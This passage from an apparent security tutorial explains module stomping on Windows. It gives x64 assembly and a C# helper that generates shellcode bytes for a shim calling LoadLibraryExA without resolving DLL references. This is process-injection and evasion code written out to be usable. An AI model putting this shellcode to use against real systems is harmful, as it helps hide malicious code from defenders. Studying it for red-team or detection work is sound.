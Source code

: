 
#### x64

When it comes to the x64 assembly we can do things a little differently.  Typically on x64, registers are used for passing the first 4 arguments, specifically `RCX`, `RDX`, `R8` and `R9`.  There are occasions where other registers are used, for example floating point or other special data types, but for our use case these will be the registers that we are concerned with.

```text
mov rax, 0xAAAAAAAAAAAAAAAA     # Pointer to LoadLibraryEx
mov r8, 1                       # DONT_RESOLVE_DLL_REFERENCES
xor rdx, rdx                    # Less bytes than mov rdx, 0 but same outcome
jmp rax                         # Pass control to LoadLibraryEx
```

You'll notice that for x64, we only need 4 instructions.  Since we are only manipulating registers and not messing with the stack, we can also immediately jump to LoadLibraryExA instead of making a function call and setting up an additional stack frame.  There is also no need for us to set the RCX register as this will already be pointing to the string containing our module to be stompped over as this is the the first argument to your own little shim.

So now we just need to put this into a nice helper function that will generate our shellcode on the fly, patching in the address of `LoadLibraryExA`

```C#
static byte[] GenerateLLExShim(long loadLibraryExP) {

    MemoryStream ms = new MemoryStream();
    BinaryWriter bw = new BinaryWriter(ms);

    //Long winded way of getting bytes as little endian
    if (IntPtr.Size == 4) {

        bw.Write((uint)loadLibraryExP);
        byte[] loadLibraryExBytes = ms.ToArray();

        return new byte[] {
            0xB8, loadLibraryExBytes[0], loadLibraryExBytes[1], loadLibraryExBytes[2], loadLibraryExBytes[3], 
            0x6A, 0x01,
            0x6A, 0x00,
            0xFF, 0x74, 0x24, 0x0c,
            0xFF, 0xD0,
            0xC2, 0x0C, 0x00
        };

    } else {

        bw.Write((ulong)loadLibraryExP);
        byte[] loadLibraryExBytes = ms.ToArray();

        return new byte[] {
            0x48, 0xB8, loadLibraryExBytes[0], loadLibraryExBytes[1], loadLibraryExBytes[2], loadLibraryExBytes[3], loadLibraryExBytes[4], loadLibraryExBytes[5], loadLibraryExBytes[6],loadLibraryExBytes[7],
            0x49, 0xC7, 0xC0, 0x01, 0x00, 0x00, 0x00,
            0x48, 0x31, 0xD2,
            0xFF, 0xE0
        };
    }
}
```
